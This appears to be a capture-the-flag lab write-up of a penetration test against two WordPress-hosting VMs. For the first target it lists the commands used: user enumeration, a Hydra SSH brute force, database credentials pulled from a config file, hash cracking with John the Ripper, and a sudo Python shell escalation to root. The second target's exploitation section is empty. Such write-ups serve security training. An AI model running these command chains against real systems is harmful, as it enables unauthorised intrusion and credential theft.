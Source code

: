 # Offensive: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

Command: `$ nmap -sV 192.168.1.110` or `$ nmap -A 192.168.1.0/24`

Output screenshot:

![Nmap 192 168 1 110](https://user-images.githubusercontent.com/85250007/174417286-7bd90ba5-e3cc-4109-abbd-e90624366fd9.gif)

This scan identifies the services below as potential points of entry:
**Target 1**
1. Port 22/TCP 	  Open 	SSH
2. Port 80/TCP 	  Open 	HTTP
3. Port 111/TCP 	Open 	rcpbind
4. Port 139/TCP 	Open 	netbios-ssn
5. Port 445/TCP 	Open 	netbios-ssn

### Critical Vulnerabilities
The following vulnerabilities were identified on each target:

**Target 1**
1. User Enumeration (WordPress site)
2. Weak User Password
3. Unsalted User Password Hash (WordPress database)
4. Misconfiguration of Python root User Privileges/Privilege Escalation
5. Improper configured SSH
6. No file security permission implemented



### Exploitation

The Offensive Team was able to penetrate `Target 1` and retrieve the following confidential data:
![save hashes and john the ripper them](https://user-images.githubusercontent.com/85250007/174421418-5f25f299-fe7a-4d8e-aa22-e4189bef7611.gif)

**Target 1**

- `Flag1: b9bbcb33ellb80be759c4e844862482d`

    - Exploit Used:
    - WPScan to enumerate users of the Target 1 WordPress site
    - Command: 
      - `$ wpscan --url http://192.168.1.110 --enumerate u`
 
 ![wpscanusers](https://user-images.githubusercontent.com/85250007/174419133-b072d0ae-c9c0-40c6-a6fa-336cf80698a3.png)
![Flag3](https://user-images.githubusercontent.com/85250007/174421144-315b9c85-f4da-4ce8-9837-9a3e52fbf809.gif)

   - Targeting User Michael
   - Executed Hydra Brute Force Attack
   - The following command was performed:
   -`hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh`
   - Password: Michael  
      
 ![Hydra brute Force](https://user-images.githubusercontent.com/85250007/174419194-4f8ce1aa-0f58-4f03-8433-d197edae8103.gif)

   - Capturing Flag 1: After SSH Brute Force Attack as Michael I traversed through directories and files.
   - Found Flag1 in  var/www/html folder at root in service.html in a HTML comment below the footer.
   - Commands:
        - `ssh michael@192.168.1.110`
        - `pw: michael`
        - `cd ../`
        - `cd ../`
        - `cd var/www/html`
        - `ls -l`
        - `nano service.html` 
        
![flag1](https://user-images.githubusercontent.com/85250007/174420761-94970862-acd1-4670-8d90-42a95f56fb4a.gif)


![Signin as Michael](https://user-images.githubusercontent.com/85250007/174419456-412018fe-aa33-4a1f-a433-6f23bf088b67.gif)

- `Flag2: fc3fd58dcdad9ab23faca6e9a3e581c`

   - Exploit Used:
   - Same exploit used to gain Flag 1.
   - Capturing Flag 2: While SSH in as user Michael Flag 2 was also found.
   - Once again traversing through directories and files as before Flag 2 was found in /var/www next to the html folder that held Flag 1.
   - Commands:
        - `ssh michael@192.168.1.110`
        - `pw: michael`
        - `cd ../`
        - `cd /var/www`
        - `find / i-name flag*`
        - `cat flag2.txt`

![Flag2](https://user-images.githubusercontent.com/85250007/174420694-4b41f777-5fa1-41d8-9588-77dd30409745.gif)

- `Flag3: afc01ab56b50591e7dccf93122770cd2`

    - Exploit Used:
    - Previous exploits used to gain Flag 1 and 2.
    - Capturing Flag 3: Accessing MySQL database.
    - Once having found wp-config.php and gaining access to the database credentials as Michael, MySQL was used to explore the database.
    - The wp-config.php displayed DB_Password in plaintext

![wp-configphp](https://user-images.githubusercontent.com/85250007/174420457-36498526-cf68-47e0-8563-9343d0a29da4.png)
      
   - Flag 3 was found in wp_posts table in the wordpress database.
   - Commands:
        - Connected to mysql: -u root -p R@v3nSecurity
          - `show databases;`
          - `use wordpress;`
          - `show tables;`
          - `select * from wp_posts;`

![Flag3](https://user-images.githubusercontent.com/85250007/174421155-f1f7ff1e-e7f7-469c-b48d-6a70d6e203a4.gif)

- `Flag4: 715dea6c055b9fe3337544932f2941ce`

    - Exploit Used:
    - Unsalted password hash and the use of privilege escalation with Python.
    - Capturing Flag 4: Retrieve user credentials from database, crack password hash with John the Ripper and use Python to gain root privileges.
    - Once having gained access to the database credentials as Michael from the wp-config.php file, lifting username and password hashes using MySQL was next. 
    - These user credentials are stored in the wp_users table of the wordpress database. The usernames and password hashes were copied/saved to the Kali machine in a file called wp_hashes.txt.
    - Commands:
         - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
         - `show databases;`
         - `use wordpress;` 
         - `show tables;`
         - `select * from wp_users;`

![mysql hashes found](https://user-images.githubusercontent.com/85250007/174421618-027c6170-266b-48e3-8432-ca68e7429c39.gif)

   - On the Kali local machine the wp_hashes.txt was run against John the Ripper to crack the hashes. 
   - Command:
        -`john wp_hashes.txt`
        
![save hashes and john the ripper them](https://user-images.githubusercontent.com/85250007/174421455-b1fed644-0b18-4c8f-9945-2b914db2048f.gif)

   - Once Steven’s password hash was cracked, the next thing to do was SSH as Steven. Then as Steven checking for privilege and escalating to root with Python
   - Commands: 
       - `ssh steven@192.168.1.110`
          - `pw:pink84`
          - `sudo -l`
          - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
          - `cd /root`
          - `ls`
          - `cat flag4.txt`

![Flag4](https://user-images.githubusercontent.com/85250007/174421352-a1c816d0-7442-40ac-aeed-8d4b2c66d8f9.gif)










### Exposed Services

Target 2 exposes the same WordPress site as Target 1, but with better security hardning. Therefore, it must be exploited differently that target 1. The steps for completing this assessment are enumerated below. All details required to capture the first three flags on Target 2 are included.

Commands: Escalate to root with `sudo su` and the `Run /opt/setup`

Nmap scan results for each machine reveal the below services and OS details:

Command: `$ nmap -A 192.168.1.*` or `$ nmap -sV 192.168.1.115`

Output screenshot:

![Nmap 192 168 1 115](https://user-images.githubusercontent.com/85250007/177840106-c8cdb6f7-295e-42e2-bfb2-38e0ada633ac.gif)


This scan identifies the services below as potential points of entry:
**Target 2**
1. Port 22/TCP 	  Open 	SSH
2. Port 80/TCP 	  Open 	HTTP
3. Port 111/TCP 	Open 	rcpbind
4. Port 139/TCP 	Open 	netbios-ssn
5. Port 445/TCP 	Open 	netbios-ssn

The following vulnerabilites were identified on Target 2:
1. CVE-2016-10033 (Remote Code Execution Vulnerability in PHPMailer)
2. CVE-2021-28041 open SSH
3. CVE-2017-15710 Apache https 2.4.10
4. CVE-2017-8779 exploit on open rpcbind port could lead to remote DoS
5. CVE-2017-7494 Samba NetBIOS


### Critical Vulnerabilities
The following vulnerabilities were identified on each target:

**Target 2**
1. CVE-2016-10033 (Remote Code Execution Vulnerability in PHPMailer 5.2.16)
     Get access to web services and search for a lot of confidential information.
        Exploiting PHPMail with back connection (reverse shell) from the target
2. Network Mapping and User Enumeration (WordPress site)
     Nmap was used to discover open ports.
        Able to discover open ports and tailor their attacks accordingly.
3. Misconfiguration of User Privileges/Privilege Escalation
    The attackers noticed that the root user has sudo privileges for python
       Able to utilize root’s python privileges in order to escalate for the
       privilege to other folders. 
4. Weak Root Password
    The root login had a weak password and the attackers were able to discover it by
    guessing.
        Able to correctly guess a root's password.
     


### Exploitation











